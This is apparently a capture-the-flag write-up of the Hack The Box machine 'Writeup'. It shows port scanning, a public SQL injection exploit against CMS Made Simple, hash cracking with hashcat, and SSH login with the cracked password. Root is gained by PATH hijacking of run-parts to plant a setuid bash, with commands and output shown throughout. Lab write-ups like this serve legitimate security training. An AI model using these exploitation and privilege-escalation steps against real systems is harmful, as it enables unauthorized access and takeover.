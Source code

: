 Only port 22 and 80 are open:
```
% nmap -p `cat logs/tcp-simple.nmap | grep open | cut -d/ -f1 | tr "\n" "," | sed "s/,$//"` -sC -sV -Pn -oA logs/nmap-tcpscripts $IP
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-31 17:17 AEST
Nmap scan report for 10.10.10.138
Host is up (0.010s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds

```

We get a username and the hostname thanks to the email address:
![Pasted image 20210731171508.png](Pasted image 20210731171508.png)

```
jkr@writeup.htb
```

We set /etc/hosts in case the virtual hosts are setup. Webpage doesnt change.

We find stuff in robots.txt
![Pasted image 20210731171725.png](Pasted image 20210731171725.png)

By curling the page we can see what software the application is using due to comments:
![Pasted image 20210731172329.png](Pasted image 20210731172329.png)

Found an exploit which works:
```
% searchsploit cms made simple SQL
[...]
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```

Running it returns a salt username and password:
```
% python 46635.py -u http://10.10.10.138/writeup/

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7

```

Based on the  exploit we get how the hash is generated:
```
% cat 46635.py | grep md5
        if hashlib.md5(str(salt) + line).hexdigest() == password:
```

Using https://hashcat.net/wiki/doku.php?id=example_hashes we can find the hashcat mode to crack this, aka mode 20.

Running hashcat:
```
# hash.txt:
# 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807

% hashcat -m 20 --force hash.txt /usr/share/wordlists/rockyou.txt                  ~/oscp/notes/htb/writeup/exploits
hashcat (v5.1.0) starting...

[...]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Sat Jul 31 17:39:19 2021 (2 secs)
Time.Estimated...: Sat Jul 31 17:39:21 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1906.8 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4362240/14344385 (30.41%)
Rejected.........: 0/4362240 (0.00%)
Restore.Point....: 4359168/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raymie0506 -> ray061

Started: Sat Jul 31 17:39:07 2021
Stopped: Sat Jul 31 17:39:23 2021
```

We now have a username and password which we can use to login to ssh:
```
% ssh jkr@$IP
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
/usr/bin/xauth:  file /home/jkr/.Xauthority does not exist
jkr@writeup:~$ hostname && ip a && whoami && cat user.txt
writeup
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:2e:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.138/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:2e5b/64 scope link
       valid_lft forever preferred_lft forever
jkr
d4e493fd4068afc9eb1aa6a55319f978
```

Ran linpeas and exploit suggester however nothing much was returned. No valid passwords found. Found a hash in `/etc/apache2/passwords` however couldn't crack it.

The path is weird and has `/usr/local/bin` at the start which suggests that we need to abuse the path hijacking:
```
% echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

```

Running pspy we can see that the application runs a command on ssh login:
_Note: If you have an ssh client config which allows session reuse, then you probably will have to wait for someone else to connect to the box to be able to see it._
```
2021/07/31 05:05:48 CMD: UID=1000 PID=6145   | -bash
2021/07/31 05:05:51 CMD: UID=0    PID=6146   | sshd: [accepted]
2021/07/31 05:05:51 CMD: UID=102  PID=6147   | sshd: [net]
2021/07/31 05:05:56 CMD: UID=0    PID=6148   | sshd: jkr [priv]
2021/07/31 05:05:56 CMD: UID=0    PID=6149   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2021/07/31 05:05:56 CMD: UID=0    PID=6150   | run-parts --lsbsysinit /etc/update-motd.d
2021/07/31 05:05:56 CMD: UID=0    PID=6151   | /bin/sh /etc/update-motd.d/10-uname
2021/07/31 05:05:56 CMD: UID=0    PID=6152   | sshd: jkr [priv]
2021/07/31 05:05:56 CMD: UID=1000 PID=6153   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6154   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6155   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6156   | -bash
2021/07/31 05:05:56 CMD: UID=1000 PID=6157   | -bash
2021/07/31 05:06:00 CMD: UID=1000 PID=6158   | -bash
2021/07/31 05:06:01 CMD: UID=0    PID=6159   | /usr/sbin/CRON
2021/07/31 05:06:01 CMD: UID=0    PID=6160   | /usr/sbin/CRON
2021/07/31 05:06:01 CMD: UID=0    PID=6161   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
```

The following command is vulnerable due to setting the path to a location we can write to and then running a comand without an absolute path. Hence, we can perform path hijacking:
```
% sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

We have write access to `/usr/local/sbin` since we're part of the staff group:
```
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ ls -dal /usr/local/bin
drwx-wsr-x 2 root staff 20480 Jul 31 05:04 /usr/local/bin

```

Now we can write our exploit to hijack the `run-parts` command.

We write our exploit shellscript which will copy `/bin/bash` to `/tmp` and setuid on it:
```
jkr@writeup:~$ echo '#!/bin/bash' > asdf.sh
jkr@writeup:~$ echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' >> asdf.sh
jkr@writeup:~$ chmod +x asdf.sh
jkr@writeup:~$ cp asdf.sh /usr/local/sbin/run-parts
```
	
We just need to login again to trigger the exploit:
```
% ssh jkr@$IP
jkr@10.10.10.138's password:

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jul 31 05:09:56 2021 from 10.10.14.23
jkr@writeup:~$ ls
asdf.sh  CRON  user.txt
jkr@writeup:~$ ls /tmp/
bash  enum  lol.txt  ssh-bswiDlYM8A  ssh-ft19Qjjwpg  vmware-root  vmware-root_1453-3980363984
jkr@writeup:~$ /tmp/bash -p
bash-4.4# whoami && ip a && hostname && cat /root/
.bash_history  .bashrc        bin/           .nano/         .profile       root.txt
bash-4.4# whoami && ip a && hostname && cat /root/root.txt
root
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:2e:5b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.138/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:2e5b/64 scope link
       valid_lft forever preferred_lft forever
writeup
eeba47f60b48ef92b734f9b6198d7226
```
